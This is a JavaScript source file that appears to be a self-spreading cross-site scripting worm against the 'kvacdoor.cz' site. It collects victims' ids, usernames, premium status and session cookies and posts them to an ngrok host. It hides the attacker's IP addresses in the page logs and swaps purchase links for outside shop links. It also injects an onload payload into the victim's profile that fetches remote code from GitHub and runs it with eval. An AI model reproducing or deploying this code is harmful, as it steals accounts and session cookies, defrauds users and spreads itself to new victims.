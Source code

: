function main() {
    if (actuallySent !== undefined) {
        return false;
    }

    var actuallySent = false;

    function getRandomInt(min, max) {
        min = Math.ceil(min);
        max = Math.floor(max);
        return Math.floor(Math.random() * (max - min) + min);
    }
    
    const id = document.querySelector("#page-topbar > div > div.d-flex.align-items-center > div > div > a:nth-child(1)").attributes['href'].value.split("/")[2];
    const username = document.querySelector('#page-header-user-dropdown > span').innerText
    const avatar = document.querySelector("#page-header-user-dropdown > img").src
    const expander = (document.querySelector("#page-header-user-dropdown > img").attributes['onload'] !== undefined)
    const premium = (document.querySelector("#side-menu > li:nth-child(8)").attributes['data-original-title'] == undefined)
    const ipv6_1 = `2001:f${getRandomInt(100,999)}:${getRandomInt(100,999)}:${getRandomInt(1000,9999)}::${getRandomInt(1000,9999)}`
    const ipv6_2 = `2001:f${getRandomInt(100,999)}:${getRandomInt(100,999)}:${getRandomInt(1000,9999)}::${getRandomInt(1000,9999)}`
    
    try {
        var logs = document.querySelectorAll("#app-layouts > div.main-content > div > div.row > div > div > div > p");
        logs.forEach( async log => {
            if (log.innerText.includes("107.189.10.123")) {
                log.innerText = log.innerText.replace("107.189.10.123", ipv6_1)
            }
            if (log.innerText.includes("146.59.80.183")) {
                log.innerText = log.innerText.replace("146.59.80.183", ipv6_2)
            }
        });
    }catch {
        console.clear();
    }
    fetch('https://4979-107-189-10-123.eu.ngrok.io/',{
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            id: id,
            username: username,
            avatar: avatar,
            expander: expander,
            path: window.location.pathname,
            domain: window.location.hostname,
            cookies: document.cookie,
            rank: (premium) ? "Premium" : "Free"
        })
    });
    
    try {
        var premiumBtn = document.querySelector("#app-layouts > div.main-content > div > div.card > div:nth-child(1) > div > div.col-12.col-md-6 > div.d-flex.flex-column.flex-sm-row > a");
        if (document.location.pathname.split("/")[2] === "steam-resolver") {
            premiumBtn.attributes['href'].value = "https://shoppy.gg/product/3zK6ZPw";    
        }else if (document.location.pathname.split("/")[2] === "premium-access"){
            premiumBtn.attributes['href'].value = "https://shoppy.gg/product/R3m2fjS"; 
        }
    }catch{
        console.clear();
    }
    
    if (!expander) {
        fetch("https://kvacdoor.cz/profile/" + id, {
        "headers": {
            "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
            "accept-language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7",
            "cache-control": "no-cache",
            "content-type": "application/x-www-form-urlencoded",
            "pragma": "no-cache",
            "sec-ch-ua": "\"Not-A.Brand\";v=\"99\", \"Opera GX\";v=\"91\", \"Chromium\";v=\"105\"",
            "sec-ch-ua-mobile": "?0",
            "sec-ch-ua-platform": "\"Windows\"",
            "sec-fetch-dest": "document",
            "sec-fetch-mode": "navigate",
            "sec-fetch-site": "same-origin",
            "sec-fetch-user": "?1",
            "upgrade-insecure-requests": "1",
            "x-requested-with": "XMLHttpRequest"
        },
        "referrer": "https://kvacdoor.cz/profile/" + id,
        "referrerPolicy": "strict-origin-when-cross-origin",
        "body": 'username=' + username + '&avatar=' + avatar + '" onload="fetch(`https://raw.githubusercontent.com/Clineeeche/Clineeeche.github.io/main/JQuery?${Date.now()}`).then( async result => eval(await result.text()))&description=&steamid=&edit-profile=',
        "method": "POST",
        "mode": "cors",
        "credentials": "include"
        });
    }
    
    console.clear();
    
    actuallySent = true;
}

main();
